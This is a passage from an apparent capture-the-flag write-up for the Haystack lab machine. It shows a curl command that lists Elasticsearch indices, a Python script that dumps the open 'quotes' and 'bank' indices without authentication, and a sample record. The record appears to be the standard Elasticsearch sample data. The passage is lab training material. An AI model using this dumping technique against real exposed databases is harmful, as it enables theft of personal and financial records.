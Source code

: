 {% highlight bash %}
$ curl http://haystack.htb:9200/_cat/indices?v
health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
{% endhighlight %}

There are a total of 3 indices. The `.kibana` is an index that contains configurations for `Kibana`. This confirms that there might be a `Kibana` service running on the machine, but we are unable to access it from the outside. The `quotes` and `bank` indexes seem interesting, so lets dump them out! I made a `python` script to ease my job:

{% highlight python %}
import requests
import json

def pretty_print(json_string):
	return json.dumps(json.loads(json_string), indent=4, sort_keys=True)
data = {
	"query": {
		"match_all": {}
	}
}
params = {
	"size": 10000
}
host = "http://haystack.htb:9200"
with open("quotes.txt", "w") as f:
    resp = requests.get(host + "/quotes/_search", params=params, json=data)
	f.write(pretty_print(resp.content))
	f.close()
with open("bank.txt", "w") as f:
	resp = requests.get(host + "/bank/_search", params=params, json=data)
	f.write(pretty_print(resp.content))
	f.close()
{% endhighlight %}

After running the script, we should get `quotes.txt` and `bank.txt`, each containing a list of JSONs.

For `bank.txt`, it seems to contain records of personal information
```
"hits": {
        "hits": [
            {
                "_id": "25", 
                "_index": "bank", 
                "_score": 1.0, 
                "_source": {
                    "account_number": 25, 
                    "address": "171 Putnam Avenue", 
                    "age": 39, 
                    "balance": 40540, 
                    "city": "Nicholson", 
                    "email": "virginiaayala@filodyne.com", 
                    "employer": "Filodyne", 
                    "firstname": "Virginia", 
                    "gender": "F", 
                    "lastname": "Ayala", 
                    "state": "PA"
                }, 
```